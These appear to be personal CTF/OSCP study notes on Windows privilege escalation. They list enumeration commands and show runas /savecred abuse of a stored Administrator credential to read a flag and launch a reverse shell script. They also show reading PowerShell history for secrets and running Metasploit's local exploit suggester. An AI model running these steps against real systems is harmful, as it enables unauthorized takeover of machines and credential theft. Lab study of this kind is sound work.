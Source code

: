 ## Intro
Whenewer possible, use winpeas

https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

Also check out this:

https://github.com/nestef23/my-OSCP-notes/blob/main/Active%20Directory/Local-Privesc.md

## Basic info
```
systeminfo

ipconfig

# display running services
net start

# display stored user names and passwords or credentials.
cmdkey /list
```

## Usefull CMD commands
```
# get own groups
whoami /priv

# Read file
type <filename>

# Find file restrictions (similar to ls -al)
icacls <filename>

# Change text file contents
echo <new content> > <filename>
```

### saved creds
A useful command to run when beginning enumeration is "cmdkey /list", which displays stored
user names and passwords or credentials. This reveals a stored credential for
"ACCESS\Administrator".
```
PS C:\Users> cmdkey /list
Currently stored credentials:
    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```
Let's abuse it to run our own command as admin
```
# Read flag
PS C:\Users> runas /user:ACCESS\Administrator /savecred "cmd /c type C:\Users\Administrator\Desktop\root.txt > C:\temp\root.txt"

# Launch estalated revshell
runas /user:ACCESS\Administrator /savecred "powershell -ExecutionPolicy Bypass -File C:\Users\security\Desktop\revshell.ps1"
runas /user:ACCESS\Administrator /savecred c:\users\security\revshell.bat
```

## PS history file
```
type C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

## Metasploit
Assuming you have an existing meterpreter access to the target
```
# background current session
background

# find available exploits
use post/multi/recon/local_exploit_suggester
set session X
run

# choose one of the suggested exploits and run it
use windows/local/XXXXX
set session X
set LHOST <KALI IP>
run

# IF it doesn't work
# 1. Verify LHOST, LPORT and Session
# 2. Choose different suggested exploit.
# PROFIT $$$
```

## Additional materials
https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation
